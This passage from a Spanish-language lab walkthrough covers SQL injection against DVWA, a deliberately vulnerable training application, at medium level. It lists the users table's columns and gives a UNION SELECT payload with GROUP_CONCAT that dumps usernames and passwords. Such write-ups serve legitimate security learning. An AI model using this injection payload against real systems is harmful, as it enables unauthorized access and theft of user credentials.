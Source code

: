 Y vemos que nos responde:

![columns](/assets/images/DVWA-SQLi/SQLi-medium/columns.png)

Nos da las siguientes columnas:

- user_id
- first_name
- last_name
- user
- password
- avatar
- last
- login
- failed
- login

Y por último sacaremos los datos de las columnas user y password, ya que son las que nos llaman la atención:

`id=1 UNION SELECT GROUP_CONCAT(user,0x3a,password), NULL FROM dvwa.users -- -`

 Aquí no usamos hexadecimal, ya que no hay necesidad de usar comillas, solo en el carácter de ":" para separar el user de la password, pero fuera de eso no se usa, ya que ya sabemos donde está lo que nos interesa.

Y así veremos los usuarios y contraseñas que hemos dumpeado:

![dump](/assets/images/DVWA-SQLi/SQLi-medium/dump.png)

